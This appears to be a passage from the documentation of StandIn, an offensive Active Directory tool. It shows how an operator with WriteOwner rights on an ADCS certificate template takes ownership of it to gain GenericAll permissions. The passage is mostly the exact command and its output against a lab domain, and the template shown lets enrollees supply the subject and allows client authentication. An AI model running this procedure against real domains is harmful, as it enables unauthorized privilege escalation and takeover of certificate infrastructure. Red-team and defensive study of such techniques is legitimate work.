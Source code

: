 > *In some special cases the operator may have `WriteOwner` permissions on the `template object`. Where other attacks are not possible, the operator can change the owner of the template which will grant the new owner `GenericAll` permissions over the template. This attack is not very desirable, see `caveats`.*

#### Syntax

Set the `Owner` of the `template object` to `REDHOOK\MBWillett`. Here the `--filter` flag has to match the template name exactly.

```
C:\>StandIn.exe --adcs --filter WebServer --ntaccount "REDHOOK\MBWillett" --owner

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Created             : 11/24/2021 4:37:30 PM
    |_ Modified            : 11/29/2021 2:58:19 PM

[+] Set object access rules

[+] Changing template owner : REDHOOK\MBWillett
    |_ Success

C:\>StandIn.exe --adcs --filter WebServer

[+] Search Base  : LDAP://CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=redhook,DC=local

[>] Certificate Authority  : redhook-RH-DC01-CA
    |_ DNS Hostname        : RH-DC01.redhook.local
    |_ Cert DN             : CN=redhook-RH-DC01-CA, DC=redhook, DC=local
    |_ GUID                : e1885348-e2b3-4e02-9147-54c4c430bc53
    |_ Published Templates : CrossCA
                             DirectoryEmailReplication
                             DomainControllerAuthentication
                             KerberosAuthentication
                             EFSRecovery
                             EFS
                             DomainController
                             WebServer
                             Machine
                             User
                             SubCA
                             Administrator

[>] Publishing CA          : redhook-RH-DC01-CA
    |_ Template            : WebServer
    |_ Schema Version      : 1
    |_ pKIExpirationPeriod : 2 years
    |_ pKIOverlapPeriod    : 6 weeks
    |_ Enroll Flags        : NONE
    |_ Name Flags          : ENROLLEE_SUPPLIES_SUBJECT
    |_ pKIExtendedKeyUsage : Client Authentication
    |                        Server Authentication
    |_ Owner               : REDHOOK\MBWillett
    |_ Permission Identity : REDHOOK\Domain Admins
    |  |_ Type             : Allow
```